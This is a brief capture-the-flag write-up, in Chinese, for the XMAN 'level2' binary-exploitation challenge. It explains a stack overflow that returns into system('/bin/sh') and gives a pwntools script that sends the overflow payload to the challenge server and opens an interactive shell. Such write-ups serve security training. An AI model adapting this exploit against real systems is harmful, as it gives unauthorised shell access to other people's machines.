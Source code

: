 # write up 0711

## [XMAN]level2

### 分析：

程序中有/bin/sh字符串和system函数，通过栈溢出返回到构造的shellcode

exp:

```python
from pwn import *

#n = process('./level2')
n = remote('pwn2.jarvisoj.com', 9878)

elf = ELF('./level2')

offset = 0x88 + 4

sh_addr = next(elf.search('/bin/sh'))
sys_addr = elf.symbols["system"]

payload = 'a' * offset + p32(sys_addr) + p32(1) + p32(sh_addr)
n.recv()
n.sendline(payload)
n.interactive()
```



